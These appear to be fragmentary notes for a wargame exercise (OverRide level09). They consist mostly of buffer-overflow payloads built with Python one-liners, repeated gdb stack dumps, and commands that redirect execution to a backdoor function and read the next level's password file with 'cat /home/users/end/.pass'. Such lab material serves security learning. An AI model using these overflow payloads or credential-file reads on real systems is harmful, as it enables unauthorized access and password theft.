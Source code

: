 level09@OverRide:~$ python -c "print('\xff'*50 + '\n' + 'a'*300 + '\n')" | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)


(gdb) x/wx secret_backdoor
0x55555555488c <secret_backdoor>:       0xe5894855


r <<< $(python -c "print('\xdd'*50 + '\n' + 'a'*300 + '\n')")
(gdb) x/64bx $rax
0x7fffffffe500: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe508: 0x69    0x4c    0x55    0x55    0x55    0x55    0x00    0x00
0x7fffffffe510: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe518: 0x13    0x47    0xa9    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe520: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe528: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe530: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe538: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00

0x7fffffffe500: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe508: 0x69    0x4c    0x55    0x55    0x55    0x55    0x00    0x00
0x7fffffffe510: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe518: 0x13    0x47    0xa9    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe520: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe528: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe530: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe538: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00



(gdb) x/64bx $rsp
0x7fffffffe500: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe508: 0x69    0x4c    0x55    0x55    0x55    0x55    0x00    0x00
0x7fffffffe510: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe518: 0x13    0x47    0xa9    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe520: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe528: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe530: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe538: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00

0x7fffffffe500: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe508: 0x69    0x4c    0x55    0x55    0x55    0x55    0x00    0x00
0x7fffffffe510: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe518: 0x13    0x47    0xa9    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe520: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe528: 0x60    0x42    0xdd    0xf7    0xff    0x7f    0x00    0x00
0x7fffffffe530: 0x0a    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe538: 0x00    0x70    0xff    0xf7    0xff    0x7f    0x00    0x00



echo $(echo $(unset $(env | cut -d= -f1); (/usr/bin/python -c "print('\xca'*41 + '\n' + 'a'*(189 + (6 * 16)) + '\x48\x7c'[::-1] + '\n' )"; /bin/echo '/bin/cat /home/users/end/.pass') | /home/users/level09/level09))


ed38

e5c8


(echo $(python -c "print('\xca'*41 + '\n' + 'a'*(189 + (6 * 16)) + '\x48\x8c'[::-1] + '\n')"); echo 'cat /home/users/end/.pass' ) | /home/users/level09/level09
d38
c70
200



(echo $(python -c "print('a'*40 + '\xca' + 'b'*(128-41-1) + 'c'*200 + '\x48\x8c'[::-1])"); echo 'cat /home/users/end/.pass') | /home/users/level09/level09